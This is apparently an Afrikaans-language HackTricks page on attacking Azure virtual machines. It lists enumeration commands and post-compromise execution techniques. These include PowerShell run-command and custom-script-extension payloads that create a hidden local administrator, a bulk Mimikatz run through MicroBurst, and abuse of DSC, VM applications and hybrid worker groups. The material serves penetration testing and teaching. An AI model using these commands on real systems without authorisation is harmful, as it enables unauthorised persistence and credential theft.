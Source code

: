 # Az - Virtuele Masjiene & Netwerk

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Kenner (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Kenner (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese inligting

[Van die dokumente:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuele masjiene is een van verskeie tipes [aanvraag, skaalbare rekenaarhulpbronne](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) wat Azure bied. Gewoonlik kies jy 'n virtuele masjien wanneer jy meer beheer oor die rekenaaromgewing benodig as wat die ander keuses bied. Hierdie artikel gee jou inligting oor wat jy moet oorweeg voordat jy 'n virtuele masjien skep, hoe jy dit skep, en hoe jy dit bestuur.

## Azure Netwerk Inligting

Azure-netwerke bevat **verskillende entiteite en maniere om dit te konfigureer.** Jy kan 'n kort **beskrywings,** **voorbeelde** en **opsomming** opdragte van die verskillende Azure-netwerk entiteite vind in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bied 'n veilige, ten volle bestuurde RDP (Remote Desktop Protocol) en SSH (Secure Shell) toegangslösing oor SSL deur die Azure-portaal. Dit is geïntegreer binne 'n Azure Virtuele Netwerk, wat RDP en SSH konnektiwiteit na VM's met privaat IP's moontlik maak, sonder die nodigheid vir openbare IP's. Dit maak dit 'n veiliger, meer gerieflike alternatief vir tradisionele metodes wat openbare IP-toekennings en NSG-reëlkonfigurasies vir VM-toegang betrek. Ontwikkelaars en IT-personeel kan veilig toegang verkry tot VM's vanaf die Azure-portaal deur hul webblaaier te gebruik, wat die proses vir ontwikkeling en toetsomgewings stroomlyn.

Om alle Azure Bastion-gashere in jou inskrywing te lys, kan jy die volgende opdrag gebruik:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Opsomming
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Voer opdragte in 'n VM uit**

### **AAD-aanmelding in VM**

Dit is moontlik om toegang te verleen aan gebruikers wat geïdentifiseer is via AzureAD. Byvoorbeeld, as jy probeer om toegang te kry tot 'n **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (dit is belangrik om **die e-posadres** met die azurecorp te gebruik wat gebruik is tydens die aanmelding) kan jy 'n fout soos die volgende kry:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Net **volg daardie instruksies** deur na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) te gaan en die kode aan te dui, gebruik die e-pos en wagwoord as geloofsbriewe en jy sal in staat wees om via SSH te koppel (as daardie gebruiker genoeg regte het om dit te doen: `Virtual Machine Administrator Login` of `Virtual Machine User Login` rol).

### **Voer Opdrag Uit**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Voer Aangepaste Skripsie-uitbreiding uit**

Azure virtuele masjien (VM) uitbreidings is **klein toepassings** wat ná-implementering konfigurasie en outomatisering **take** op **Azure VM's** voorsien. Byvoorbeeld, as 'n virtuele masjien sagteware-installasie, antivirusbeskerming, of die vermoë om 'n skripsie binne-in dit uit te voer, benodig, kan jy 'n VM-uitbreiding gebruik.

Daarom, as jy toegang het om dit te skryf, kan jy willekeurige kode uitvoer:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### GewensteKonfigurasieToestand (DSC)

GewensteKonfigurasieToestand (DSC) is 'n PowerShell-instrument soortgelyk aan Ansible, wat gebruik word om 'n gasheer deur kode op te stel. DSC integreer met Azure, wat die oplaai van spesifieke konfigurasie lêers moontlik maak. Hierdie lêers moet aan 'n streng sintaksis voldoen. Die DSC-uitbreiding in Azure kan bevele uitvoer van lêers wat aan sekere opmaakvereistes voldoen, selfs as die sintaksis nie korrek is vir DSC-standaarde nie, soos in die voorsiene figuur getoon.

Die uitvoering van hierdie bevele word gefasiliteer deur die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funksie in Az PowerShell. Die vereistes sluit in 'n **.PS1** lêer met 'n gedefinieerde funksie en die lêer moet in 'n **.zip** lêer saamgepers word. Selfs al is die sintaksis nie akkuraat vir DSC nie, sal die kode steeds uitgevoer word. Die uitbreiding sal egter die uitvoerstatus as "mislukking" aandui, en geen uitset van die bevel sal sigbaar wees nie as gevolg van die status wat oorskryf word deur die mislukkingsboodskap.

### VM-toepassingsdefinisies

VM-toepassingsdefinisies maak die herhaalbare implementering van weergawes van toepassings na 'n Azure VM moontlik. Hierdie hulpbron ondersteun die implementering en opdatering van toepassings oor VM's. Om dit op te stel, is verskeie stappe nodig, wat bevele soos **`New-AzGalleryApplication`** en **`New-AzGalleryApplicationVersion`** in Az PowerShell insluit.

Die uitvoering van toepassings of bevele deur hierdie metode behels die **"VMAppExtension"**, wat outomaties geïnstalleer word wanneer 'n toepassing op 'n VM toegepas word. Die uitbreiding haal die lêer vanaf die gespesifiseerde URI en noem dit presies soos die toepassing, sonder 'n uitbreiding. Om die lêer korrek uit te voer, moet die "ManageActions" veld in die REST API-oproep gekonfigureer word om die lêer met die toepaslike uitbreiding te hernoem. Die opstel van hierdie metode, wanneer voltooi, sal lyk soos die struktuur wat in die voorsiene figuur getoon word.

Hierdie metode van uitvoering is egter relatief stadig en neem ongeveer 3-4 minute om 'n toepassing of bevel uit te voer. Die lêers wat met hierdie proses verband hou, word gestoor in spesifieke gids (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` vir die toepassingskopie en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` vir die uitvoeringsstatus).

Beide tegnieke bied unieke maniere om bevele uit te voer en toepassings in Azure-omgewings te implementeer, elk met sy eie stel vereistes, stappe en oorwegings.

### Hibriede Werker Groepe (HWGs) in Azure

[**Hibriede Werker Groepe (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) is 'n kenmerk in Azure wat hardloopboeke, wat in 'n Outomatiseringsrekening opgestel is, toelaat om op 'n Azure Virtuele Masjien (VM) wat deel is van die aangewese HWG, uitgevoer te word. Hierdie uitvoering word fasiliteer deur 'n uitbreiding wat op die VM geïnstalleer is, wat die Hardloopboek-kode op die VM ontplooi. 'n Belangrike aspek van hierdie proses is dat die werklike geloofsbriewe nie 'n faktor in die uitvoering is nie omdat die kode met verhoogde voorregte loop, spesifiek as **SYSTEM** of root, soos geïllustreer in die voorsiene figuur.

'N Belangrike detail vir diegene wat Windows 10 VM's gebruik, is die noodsaaklikheid om die PowerShell-weergawe vir die Hardloopboek te spesifiseer. Dit moet ingestel word om as PowerShell Weergawe 5.1 te loop in plaas van 7.1. Hierdie vereiste spruit voort uit die feit dat PowerShell 7.1 nie standaard op hierdie VM's geïnstalleer is nie, wat tot 'n mislukking in skripsuitvoering lei as weergawe 7.1 gespesifiseer word.

Hierdie kenmerk van Azure bied 'n robuuste metode vir outomatisering en bestuur van take oor hibriede omgewings, wat sentrale bestuur en uitvoering van take op Azure VM's moontlik maak.


## Verwysings

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
